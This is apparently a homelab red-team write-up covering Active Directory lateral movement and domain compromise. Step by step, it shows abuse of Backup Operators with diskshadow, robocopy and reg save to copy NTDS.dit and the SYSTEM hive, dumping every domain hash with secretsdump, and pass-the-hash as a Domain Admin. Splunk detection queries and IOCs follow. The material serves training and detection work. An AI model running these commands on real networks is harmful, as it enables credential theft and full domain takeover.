



# Phase 4 — Lateral Movement & Domain Compromise

> **Tactic:** Lateral Movement, Privilege Escalation, Credential Access  
> **ATT&CK:** T1003.003, T1550.002, T1021.006, T1078.002  
> **Target:** HL-DC01 via svc_backup Backup Operators abuse  
> **Result:** Full Domain Admin access via Pass-the-Hash

---

## Overview

svc_backup's membership in BUILTIN\Backup Operators grants the ability to 
read any file on the system regardless of permissions — including NTDS.dit. 
This phase abuses that privilege to extract all domain hashes, then uses 
da_admin's NTLM hash to authenticate as Domain Admin without ever knowing 
the password.



---

## Step 1 — Connect to DC01 as svc_backup
```bash
evil-winrm -i 192.168.0.104 -u svc_backup -p 'Summer2024!'
```

Verify Backup Operators membership:
```powershell
whoami /groups | findstr /i "backup"
```

Expected output:
```
BUILTIN\Backup Operators    S-1-5-32-551    Mandatory group, Enabled by default
```

> **Critical:** Must show BUILTIN\Backup Operators with SID S-1-5-32-551.
> A custom AD group named "Backup_Operators" does NOT grant the same 
> filesystem privileges. Only the built-in group works for NTDS.dit extraction.

---

## Step 2 — Create Shadow Copy via Diskshadow

Create the diskshadow script:
```powershell
mkdir C:\Users\svc_backup\Documents\bk

$lines = @(
    "set verbose on",
    "set metadata C:\Users\svc_backup\Documents\bk\meta.cab",
    "set context clientaccessible",
    "set context persistent",
    "begin backup",
    "add volume C: alias mydrive",
    "create",
    "expose %mydrive% Z:",
    "end backup"
)
[System.IO.File]::WriteAllLines(
    "C:\Users\svc_backup\Documents\bk\shadow.txt", $lines)
```

Execute diskshadow:
```powershell
diskshadow /s C:\Users\svc_backup\Documents\bk\shadow.txt
```

Expected output:
```
The shadow copy was successfully exposed as Z:\
```

> **Why diskshadow?** NTDS.dit is locked by the OS while Windows is running.
> Creating a shadow copy gives us a consistent snapshot of the volume 
> including an unlocked copy of NTDS.dit that we can read freely.

---

## Step 3 — Copy NTDS.dit and SYSTEM Hive
```powershell
# Copy NTDS.dit from shadow copy using Backup Operators privilege
cmd /c "robocopy Z:\Windows\NTDS C:\Users\svc_backup\Documents\bk ntds.dit /b"

# Export SYSTEM hive — needed to decrypt the hashes
cmd /c "reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\bk\SYSTEM.hive /y"

# Verify both files exist
dir C:\Users\svc_backup\Documents\bk
```

---

## Step 4 — Download to Kali
```powershell
download C:\Users\svc_backup\Documents\bk\ntds.dit /tmp/ntds.dit
download C:\Users\svc_backup\Documents\bk\SYSTEM.hive /tmp/SYSTEM.hive
```

Verify on Kali:
```bash
ls -lh /tmp/ntds.dit /tmp/SYSTEM.hive
```

---

## Step 5 — Extract All Domain Hashes
```bash
impacket-secretsdump \
  -ntds /tmp/ntds.dit \
  -system /tmp/SYSTEM.hive \
  LOCAL \
  -outputfile /tmp/domain_hashes

# View all extracted hashes
cat /tmp/domain_hashes.ntds
```

Expected output format:
```
homelab.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:HASH:::
homelab.local\da_admin:1109:aad3b435b51404eeaad3b435b51404ee:HASH:::
homelab.local\brown:1110:aad3b435b51404eeaad3b435b51404ee:HASH:::
homelab.local\johnson:1111:aad3b435b51404eeaad3b435b51404ee:HASH:::
homelab.local\svc_backup:1112:aad3b435b51404eeaad3b435b51404ee:HASH:::
homelab.local\krbtgt:502:aad3b435b51404eeaad3b435b51404ee:HASH:::
```

Note the da_admin NTLM hash — the value after the third colon.



---

## Step 6 — Pass-the-Hash as da_admin
```bash
# No password needed — just the NTLM hash
evil-winrm -i 192.168.0.104 -u da_admin -H <DA_NTLM_HASH>
```

Verify Domain Admin access:
```powershell
whoami
# homelab\da_admin

whoami /groups | findstr "Domain Admins"
# HOMELAB\Domain Admins

# Confirm access to sensitive shares
dir \\HL-DC01\HR_Share
dir \\HL-DC01\IT_Share
```


---

## Splunk Detection

### svc_backup Logon to DC01 — EID 4624
```
index=wineventlog host="HL-DC01" EventCode=4624
| search Account_Name="svc_backup"
| table _time, Account_Name, Logon_Type, Source_Network_Address
```

### Diskshadow Execution — Sysmon EID 1
```
index=wineventlog_sysmon host="HL-DC01" EventCode=1
| search Image="*diskshadow*"
| table _time, Image, CommandLine, User, ParentImage
```

### NTDS.dit Access — Sysmon EID 1
```
index=wineventlog_sysmon host="HL-DC01" EventCode=1
| search CommandLine="*ntds*" OR CommandLine="*robocopy*"
| table _time, Image, CommandLine, User
```

### SYSTEM Hive Export — Sysmon EID 1
```
index=wineventlog_sysmon host="HL-DC01" EventCode=1
| search CommandLine="*reg save*"
| table _time, Image, CommandLine, User
```

### da_admin Pass-the-Hash — EID 4624 LogonType 3
```
index=wineventlog host="HL-DC01" EventCode=4624
| search Account_Name="da_admin" Logon_Type="3"
| table _time, Account_Name, Logon_Type, Source_Network_Address
```

### Domain Admin Privileges Assigned — EID 4672
```
index=wineventlog host="HL-DC01" EventCode=4672
| search Subject_Account_Name="da_admin"
| table _time, Subject_Account_Name, Privilege_List
```



---

## IOCs Generated

| Type | Value |
|------|-------|
| Files Created | C:\Users\svc_backup\Documents\bk\ntds.dit |
| Files Created | C:\Users\svc_backup\Documents\bk\SYSTEM.hive |
| Process | diskshadow.exe |
| Process | robocopy.exe with /b flag |
| Command | reg save HKLM\SYSTEM |
| Logon Type | 3 (network) with NTLM hash — no password |

---

## Key Takeaway

> The domain is fully compromised. Every user's NTLM hash has been extracted 
> including krbtgt — which is the key to forging Golden Tickets in Phase 5. 
> Pass-the-Hash confirms Domain Admin access without ever knowing da_admin's 
> plaintext password.
